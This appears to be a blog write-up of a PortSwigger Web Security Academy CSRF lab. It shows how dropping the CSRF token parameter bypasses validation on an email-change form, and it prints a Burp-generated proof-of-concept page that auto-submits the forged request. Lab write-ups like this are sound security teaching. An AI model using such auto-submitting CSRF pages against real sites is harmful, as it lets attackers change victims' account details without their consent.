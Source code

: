 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-02T15:22:00Z
modDatetime: 2024-10-02T09:12:47.400Z
title: CSRF where token validation depends on token being present
slug: csrf-portswigger-lab-2
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's email change functionality is vulnerable to CSRF. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials `wiener:peter`    
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter` 

## Solution

Like the First CSRF lab which we solved is **"CSRF where token validation depends on request method"** here also looks the same where we have a **Email update** functionality and if we pass the values correctly, we will be responded with status code of `302`

![](../../assets/images/bscp/csrf/csrf-6.png) 

When I change something to the CSRF value like changing the last letter of value or something.. we will get an error like `Invalid CSRF token` 

![](../../assets/images/bscp/csrf/csrf-7.png) 

But what happens when we remove the entire token, think of it like `&csrf=guhoud09u` if I change something to their value it is validating based on the token and if the token isn't there it is not going to be validated.. So, I removed `&csrf=` entirely including the parameter and it worked.. request passes through and email got updated.. So it is vulnerable to a CSRF attack 

![](../../assets/images/bscp/csrf/csrf-8.png) 

Built a CSRF POC of the request using burpsuite and here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac400ed0306a804803f999e002600ec.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Post the exploit POC into the Exploit server body and then `store -> Deliver the exploit to victim` and which will solve our lab 

![](../../assets/images/bscp/csrf/csrf-9.png) 
